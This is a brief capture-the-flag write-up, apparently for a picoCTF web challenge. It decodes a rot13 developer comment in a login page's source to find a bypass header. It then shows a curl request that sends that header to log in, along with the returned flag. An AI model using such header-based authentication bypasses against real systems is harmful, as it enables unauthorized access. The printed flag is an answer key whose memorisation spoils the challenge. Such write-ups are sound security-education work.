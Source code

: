 # Overview
When entering the website, a login page appears  
<img width="400" height="250" alt="image" src="https://github.com/user-attachments/assets/48daae86-9317-4867-b187-33f8962fc500" />  
**Hint 1**: Developers sometimes leave notes in the code; but not always in plain text.  
**Hint 2**: A common trick is to rotate each letter by 13 positions in the alphabet.

The website has provided us with an email and our job is to log in with this email  
Email: ctf-player@picoctf.org  
  
`Ctr+U` to view the page source, we see that the developer left a comment that should probably be deleted  
<img width="400" height="250" alt="image" src="https://github.com/user-attachments/assets/52d04548-5330-476e-811c-ca97fef00ecb" />  
  
`ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf` => This is a piece of code encoded with rot13  
After coding, this is the collected data: `NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes"`  

# Writeup
You can use burpsuite to capture requests and send them or you can use Curl to send requests.  
In this case, I use Curl  
`curl -X POST http://amiable-citadel.picoctf.net:YourPost/login -H "Content-Type: application/json" -H "X-Dev-Access: yes" -d '{"email":"ctf-player@picoctf.org","password":"123"}'`  

Flag will be returned  
`{"success":true,"email":"ctf-player@picoctf.org","firstName":"pico","lastName":"player","flag":"picoCTF{brut4_f0rc4_cbb8faa7}"}`



